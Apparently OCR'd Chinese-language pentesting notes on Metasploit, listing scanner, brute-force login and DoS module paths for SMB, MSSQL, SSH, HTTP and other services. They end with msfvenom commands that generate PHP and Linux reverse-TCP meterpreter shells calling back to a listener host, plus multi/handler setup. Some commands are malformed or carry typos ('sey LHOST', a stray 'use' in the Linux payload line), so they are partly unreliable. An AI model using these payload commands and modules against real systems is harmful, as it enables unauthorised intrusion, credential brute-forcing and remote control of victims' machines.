 # msfvenom
 metasploit 更新后就移除了 msfencode 以及 msfpayload

 http://www.freebuf.com/sectool/69362.html
 http://blog.51cto.com/biock/1658668
 http://www.secist.com/archives/1070.html
 http://blog.csdn.net/lijia111111/article/details/64124693

# 扫描模块

auxiliary/scanner/portscan
scanner/portscan/ack
scanner/portscan/ftpbounce
scanner/portscan/syn
scanner/portscan/tcp
scanner/portscan/xmas
smb 扫描
smb 枚举 auxiliary/scanner/smb/smb_enumusers
返回 DCERPC 信息 auxiliary/scanner/smb/pipe_dcerpc_auditor 扫描 SMB2 协议 auxiliary/scanner/smb/smb2
扫描 smb 共享文件 auxiliary/scanner/smb/smb_enumshares 枚举系统上的用户 auxiliary/scanner/smb/smb_enumusers
SMB 登录 auxiliary/scanner/smb/smb_login
SMB 登录 use windows/smb/psexec
扫描组的用户 auxiliary/scanner/smb/smb_lookupsid 扫描系统版本 auxiliary/scanner/smb/smb_version
mssql 扫描(端口 tcp1433udp1434)
admin/mssql/mssql_enum MSSQL 枚举
ACK 防火墙扫描 FTP 跳端口扫描 SYN 端口扫描
TCP 端口扫描 TCP"XMas"端口扫描
admin/mssql/mssql_exec admin/mssql/mssql_sql scanner/mssql/mssql_login scanner/mssql/mssql_ping
另外还有一个 mssql_payload 的模块 利用使用的 smtp 扫描
MSSQL 执行命令
MSSQL 查询
MSSQL 登陆工具
测试 MSSQL 的存在和信息
smtp 枚举 auxiliary/scanner/smtp/smtp_enum
扫描 smtp 版本 auxiliary/scanner/smtp/smtp_version
snmp 扫描
通过 snmp 扫描设备 auxiliary/scanner/snmp/community
ssh 扫描
ssh 登录 auxiliary/scanner/ssh/ssh_login
ssh 公共密钥认证登录 auxiliary/scanner/ssh/ssh_login_pubkey 扫描 ssh 版本测试 auxiliary/scanner/ssh/ssh_version
telnet 扫描
telnet 登录 auxiliary/scanner/telnet/telnet_login
扫描 telnet 版本 auxiliary/scanner/telnet/telnet_version tftp 扫描
扫描 tftp 的文件 auxiliary/scanner/tftp/tftpbrute
ftp 版本扫描 scanner/ftp/anonymous

ARP 扫描
auxiliary/scanner/discovery/arp_sweep
扫描 UDP 服务的主机 auxiliary/scanner/discovery/udp_probe 检测常用的 UDP 服务 auxiliary/scanner/discovery/udp_sweep sniffer 密码 auxiliary/sniffer/psnuffle
snmp 扫描 scanner/snmp/community
vnc 扫描无认证扫描 scanner/vnc/vnc_none_auth
web 服务器信息扫描模块
Module auxiliary/scanner/http/http_version
Module auxiliary/scanner/http/open_proxy
Module auxiliary/scanner/http/robots_txt
Module auxiliary/scanner/http/frontpage_login
Module auxiliary/admin/http/tomcat_administration Module auxiliary/admin/http/tomcat_utf8_traversal
Module auxiliary/scanner/http/options
Module auxiliary/scanner/http/drupal_views_user_enum Module auxiliary/scanner/http/scraper
Module auxiliary/scanner/http/svn_scanner
Module auxiliary/scanner/http/trace
Module auxiliary/scanner/http/vhost_scanner

Module auxiliary/scanner/http/webdav_internal_ip Module auxiliary/scanner/http/webdav_scanner
Module auxiliary/scanner/http/webdav_website_content 文件目录扫描模块
Module auxiliary/dos/http/apache_range_dos
Module auxiliary/scanner/http/backup_file
Module auxiliary/scanner/http/brute_dirs
Module auxiliary/scanner/http/copy_of_file
Module auxiliary/scanner/http/dir_listing
Module auxiliary/scanner/http/dir_scanner
Module auxiliary/scanner/http/dir_webdav_unicode_bypass Module auxiliary/scanner/http/file_same_name_dir
Module auxiliary/scanner/http/files_dir
Module auxiliary/scanner/http/http_put
Module auxiliary/scanner/http/ms09_020_webdav_unicode_bypass Module auxiliary/scanner/http/prev_dir_same_name_file
Module auxiliary/scanner/http/replace_ext
Module auxiliary/scanner/http/soap_xml
Module auxiliary/scanner/http/trace_axd
Module auxiliary/scanner/http/verb_auth_bypass

web 应用程序漏洞扫描模块
Module auxiliary/scanner/http/blind_sql_query Module auxiliary/scanner/http/error_sql_injection Module auxiliary/scanner/http/http_traversal
Module auxiliary/scanner/http/rails_mass_assignment Module exploit/multi/http/lcms_php_exec
# php rev
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.120 LPORT=4433 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# linux
msfvenom -p use payload/linux/x86/meterpreter/reverse_tcp  LHOST=192.168.0.120 LPORT=4433 -f elf >shell.elf

# 监听
use exploit/multi/handler
set payload 
sey LHOST
set LPORT

